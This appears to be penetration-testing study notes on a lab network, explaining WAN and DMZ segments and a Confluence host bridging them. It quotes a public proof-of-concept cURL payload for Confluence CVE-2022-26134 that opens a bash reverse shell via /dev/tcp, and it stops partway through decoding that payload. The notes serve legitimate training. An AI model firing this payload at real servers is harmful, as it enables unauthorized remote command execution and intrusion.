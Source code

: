 The diagram below shows the network layout, as we understand it so far:
![[Pasted image 20231214133325.png]]

One of the first things to notice about this diagram is that there are two named networks: the _Wide Area Network_ (WAN) on the left and the _Demilitarized Zone_ (DMZ) on the right
+ Our Kali machine is in the WAN, the PostgreSQL database server `PGDATABASE01` is in the DMZ, and the Confluence server `CONFLUENCE01` straddles both

A **WAN** is a network that is large and expansive
+ Some people refer to the public internet as the largest WAN in the world, and some larger organizations will refer to their large internal network as a WAN, or internal WAN
+ In this case, since we're simulating an attack from an external network, the WAN represents a large corporate internal network, or the internet itself

A **DMZ** is a network containing devices that may be more exposed to a wider, less trusted network
+ A DMZ helps create a buffer zone between hosts on the wider, less trusted network and internal hosts
+ In this way, it serves a similar function to a real-world _Demilitarized zone_
+ In this scenario, the DMZ is the buffer network segment between the WAN and whatever other internal networks we may find

`CONFLUENCE01` is straddling both the WAN and DMZ to illustrate that it is able to communicate on both networks
+ `CONFLUENCE01` is also listening on TCP port 8090, illustrated by the "open socket" attached to the icon

`PGDATABASE01` is within the DMZ network boundary - it does not straddle the WAN/DMZ
+ Our Kali machine is not in the DMZ, so we can't directly route to `PGDATABASE01`
+ `PGDATABASE01` also has an "open socket" attached to it, illustrating that there's something listening on TCP port 5432 (this is likely a PostgreSQL server, since the default port is 5432).
+ Since the only thing we know about PGDATABASE01 so far is that it exists, we don't yet know if it's attached to any other networks
+ If later we find that PGDATABASE01 is attached to other networks, we will expand our network diagram

With the credentials we found on CONFLUENCE01, we want to try to connect to this PostgreSQL port on PGDATABASE01 from our Kali machine
+ Before getting into more detail, let's set up our lab environment to recreate the scenario we've described so far

### Setting Up the Lab Environment
To gain access to `CONFLUENCE01`, we need to leverage the command execution vulnerability in the Confluence web application to get a reverse shell
+ After discovering that the Confluence web application is vulnerable to CVE-2022-26134, we'll find a blog post from _Rapid7_ that includes a _cURL_ command containing a _proof-of-concept_ payload that claims to exploit the vulnerability and return a reverse shell:
```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

We don't run payloads without understanding exactly what they do, so we first need to figure out what's happening in this proof-of-concept
+ The verbose (**-v**) **curl** request is being made to **`http://10.0.0.28:8090`**, which we assume is the blogpost author's vulnerable Confluence server
+ After this, the URL _path_ looks more interesting. We observe that a lot of the characters in it are _URL encoded_, so we need to _URL decode_ them to get a clearer sense of what the payload actually does
	+ **NOTE**: can quickly URL decode strings by selecting _Decode As..._ > _URL_ in the _Decoder_ tab in _Burp_, or using an online tool such as CyberChef. If working with sensitive information in a real corporate environment, you should avoid pasting data into online tools. However, in this case we're decoding a proof-of-concept that's already public, so we can use online tools if necessary
